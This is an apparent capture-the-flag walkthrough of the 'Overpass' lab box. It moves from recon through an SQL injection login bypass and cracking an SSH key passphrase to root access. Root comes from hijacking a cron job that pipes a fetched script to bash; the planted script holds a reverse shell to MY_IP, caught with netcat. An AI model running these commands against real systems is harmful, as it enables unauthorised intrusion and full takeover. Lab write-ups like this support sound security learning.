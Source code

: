# Overpass

This room is pretty barebones in the questions, so we do everything from scratch!
A good opportunity to test your skills ...

### What happens when a group of broke Computer Science students try to make a password manager? Obviously a perfect commercial success!
yay



## 1. Recon
`❯ nmap -sC -sV -A BOX_IP`

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-02 22:56 EST
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 49.58% done; ETC: 22:56 (0:00:23 remaining)
Stats: 0:00:41 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 66.33% done; ETC: 22:57 (0:00:20 remaining)
Nmap scan report for BOX_IP
Host is up (0.41s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.19 seconds
```

`❯ gobuster dir -u BOX_IP -w "/usr/share/wordlists/rockyou.txt" -x "html,php,txt"`
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://BOX_IP
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt
[+] Timeout:        10s
===============================================================
2021/02/02 23:06:26 Starting gobuster
===============================================================
/index.html (Status: 301)
/img (Status: 301)
/downloads (Status: 301)
/aboutus (Status: 301)
/admin (Status: 301)
/admin.html (Status: 200)
/css (Status: 301)
Progress: 1322 / 220561 (0.60%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2021/02/02 23:12:32 Finished
===============================================================
```

PS: you can run this with `--script=vuln`, and that works too. But, it took this amount of time:
`Nmap done: 1 IP address (1 host up) scanned in 1216.13 seconds`. So maybe not a good idea. 


## 2. Foothold

hmmm. admin look interesting. Using `/admin.html` gives us a login page.

lets try an sql injection: `69 OR 1=1`

...

works!

okay so name of the person is james and ... we have the ssh private key printed out lmao. lets try:

`❯ ssh -i key james@BOX_IP`

- key: the rsa key
- james: the username
- BOX_IP: IP address of the box.

password protected ;-; ok so lets take that key and convert it into a better format.

`python ssh2john.py id_rsa > id_rsa.hash`

time to bruteforce!

```
❯ john hash -wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
*******          (key)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:07 DONE (2021-02-02 23:49) 0.1385g/s 1986Kp/s 1986Kc/s 1986KC/sa6_123..*7¡Vamos!
Session completed
```
key hidden :)


### Hack the machine and get the flag in user.txt 

```
❯ ssh -i key james@BOX_IP
Enter passphrase for key 'key': 
```
I'm in!

`james@overpass-prod:~$ cat user.txt`

:stonks:

## 3. PrivEsc
```
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

ok so lets copy linpeas to find any issues:

`❯ scp -i path/to/key /path/to/linpeas.sh james@BOX_IP:/destination/path`


now, 
```
james@overpass-prod:~$ chmod +x linpeas.sh 
james@overpass-prod:~$ ./linpeas.sh 
```

hmm. so we have `/etc/hosts` available to edit
```
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.1.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

and since there's some talk about automated build scipts, we should go look at cron.
```
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

ah yeas. look at the last one. it runs every minute, as root. only if we could change the hosting location of `overpass.thm` ... oh wait


so lets edit `/etc/hosts`'s `overpass.thm` to our own ip, and setup a python server using:
```
❯ sudo python3 -m http.server 80
[sudo] password for tanishq: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

note the port 80 since that curl is going to look in the default port. Now, wherever you started this server, from this location onwards, we need to have this exact structure `/downloads/src/buildscript.sh`, so

- `❯ mkdir downloads`
- `❯ cd downloads`
- `❯ mkdir src`
- `❯ cd src`
- `❯ echo "bash -i >& /dev/tcp/MY_IP/4242 0>&1" > buildscript.sh`

this lets us pretend to be a server, serving that `buildscript.sh` file :)

we are telling the sever to send us a tcp connection to our own ip on the port `4242`.

Meanwhile, setup netcat using:

`❯ nc -nlvp 4242`

- -l: listen mode, for inbound connects
- -n: numeric-only IP addresses, no DNS
- -v: verbose [use twice to be more verbose]
- -p port: local port number

and we are in!

### Escalate your privileges and get the flag in root.txt
PWNED 1337
